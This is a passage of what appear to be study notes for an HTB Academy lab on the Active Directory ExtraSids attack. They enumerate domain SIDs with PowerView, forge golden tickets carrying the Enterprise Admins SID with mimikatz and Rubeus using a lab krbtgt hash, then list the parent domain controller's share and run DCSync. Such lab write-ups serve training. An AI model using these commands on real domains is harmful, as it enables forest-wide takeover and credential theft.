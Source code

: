 #### **Child Domain SID**
```powershell
# PowerView method
Get-DomainSID
# Output: S-1-5-21-2806153819-209893948-922872689
```

#### **Enterprise Admins SID**
```powershell
# PowerView cross-domain enumeration
Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid

# Output: S-1-5-21-3842939050-3880317879-2865463114-519
```

### **Step 2: ExtraSids Attack Execution**

#### **Method 1: Mimikatz Golden Ticket**
```powershell
# Create Golden Ticket with Enterprise Admin privileges
mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt

# Verify ticket in memory
klist
```

#### **Method 2: Rubeus Golden Ticket**
```powershell
# Rubeus equivalent attack
.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt

# Verify ticket in memory
klist
```

### **Step 3: Parent Domain Compromise**
```powershell
# Verify access to parent domain controller
ls \\academy-ea-dc01.inlanefreight.local\c$

# Perform DCSync against parent domain
mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm /domain:INLANEFREIGHT.LOCAL
```

---

## 🎯 **HTB Academy Lab Solutions**
